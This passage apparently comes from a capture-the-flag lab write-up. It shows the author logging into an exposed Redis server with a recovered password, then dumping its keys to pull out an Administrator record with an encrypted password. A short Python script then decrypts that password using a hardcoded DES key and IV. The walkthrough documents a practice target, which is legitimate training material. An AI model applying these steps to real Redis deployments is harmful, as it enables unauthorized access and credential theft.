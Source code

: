 ```php
$ redis-cli --pass kidvscat_yes_kidvscat -h  10.129.132.110 
Warning: Using a password with '-a' or '-u' option on the command line interface may not be safe.
10.129.132.110:6379>
```


## Route 1 Redis Keyspace

Now the ways to system splits. We will first follow the one which seems to be intended.

Running the `info` command we see at the bottom of the output below  `# Keyspace`, that there is one database with 4 keys.

```php
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
10.129.132.110:6379>
```

We can list all the keys with `KEYS *` and print the key with `ET KEY`.

```php
10.129.132.110:6379> KEYS *
1) "pk:ids:MetaDataClass"
2) "pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0"
3) "pk:urn:metadataclass:ffffffff-ffff-ffff-ffff-ffffffffffff"
4) "pk:ids:User"
```

```php
10.129.132.110:6379> GET pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0
"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
10.129.132.110:6379>
```

We find a password for the administrator user which is encrypted again. However we can decrypt it the same way we did before only swapping the value for the hash in our short python script.

```py
import base64
from des import * #python3 -m pip install des

def decode():
        hash = "Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi"
        hash = base64.b64decode(hash.encode('utf-8'))
        key = DesKey(b"7ly6UznJ")
        print(key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))

decode()
```

Running it gives us the administrator's password this time.

```php
$ python decode.py 
kidvscat_admin_@123
```
